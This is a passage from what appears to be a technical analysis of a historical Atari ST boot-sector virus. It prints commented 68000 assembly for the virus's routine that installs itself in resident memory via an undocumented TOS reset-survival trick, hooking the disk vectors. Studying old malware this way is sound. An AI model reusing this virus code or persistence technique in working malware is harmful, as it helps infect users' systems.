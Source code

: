 What to notice:
 1. As said the stack is used to set the `A0` register to the `DSKBUF` location without checking this system variable
 1. The virus will be installed in stealth memory at `MEMTOP - 0x200` which is at a 512 bytes boundary so compatible with the undocumented TOS resident program check.

Side notes:

As I did for the Ghost Virus, I added a list of constants and pointers to make the rest of the code easier to understand (and configurable), please refer to those constants when needed.

### INSTALL_RESIDENT_VECTOR

This routine will "patch" the bootsector copied in the `DSKBUF` buffer to replace 28 bytes reserved to describe the floppy (see the [bootsector format](/pages/boosector-en.html)) by the data structure required by the virus to operate, based on data spread in the bootsector data

As for the Ghost Virus, this routine will take care to correctly set up the resident program header, a BRA instruction to "jump over" the program variable structure (check the `OFFSET_` structure in the source constants), and finally adjust the double-page checksum to validate the resident program in order to be executed (and deleted) during the next warm reset.

```asm
; ----------------------------------------------------------------------------------------------------------
; Install virus in resident memory using undocumented trick
; Structure:
; 0.L: Magic value (RESIDENT_MAGIC)
; 4.L: Resident program address (A1=MEMTOP-$200) aligned at 512 bytes boundary
; 8.L: Resident code
; Double page (512 bytes) checksum has to be $5678
; At next reset, this part will be executed (and deleted)
; ----------------------------------------------------------------------------------------------------------
INSTALL_RESIDENT_VECTOR:
       ; Set the preprogram variables OFFSET_ structure which fits the resident program constraints and the boot sector reserved block
        MOVE.W    $GENERATION(A0),OFFSET_GENERATION(A0)         ; copy the generation counter from the bootsector to the generation variable
        MOVE.L    #RESIDENT_MAGIC,(A0)                          ; Add magic word 0x12123456 that TOS looks for
        MOVE.L    A1,OFFSET_RESIDENT_ADDRESS(A0)                ; add vector address
        MOVE.W    #$6014,OFFSET_BRA(A0)                         ; add branch to 22 (0x16) to jump over the data and reach the next BRA
        MOVE.L    #VIRUS_ID,OFFSET_VIRUS_ID(A0)                 ; add virus identifier
        MOVE.L    HDV_BPB(A2),OFFSET_OLD_HDV_BPB(A0)            ; add hdv_bpb vector
        MOVE.L    HDV_MEDIACH(A2),OFFSET_OLD_HBD_MEDIACH(A0)    ; add hdv_mediach vector

        ; compute magic checksum
        CLR.W     D1                                ; clear d1
        MOVE.W    #$FE,D0                           ; for d0 = 254 to 0
.copy_and_calc_checksum:
        MOVE.W    (A0),(A1)+                        ; copy
        ADD.W     (A0)+,D1                          ; compute work checksum
        DBF       D0,.copy_and_calc_checksum
        NEG.W     D1                                ; negate checksum
        ADD.W     #RESIDENT_CHK,D1                  ; add RESIDENT_CHK
        MOVE.W    D1,(A1)                           ; add checksum to A1
        RTS
```
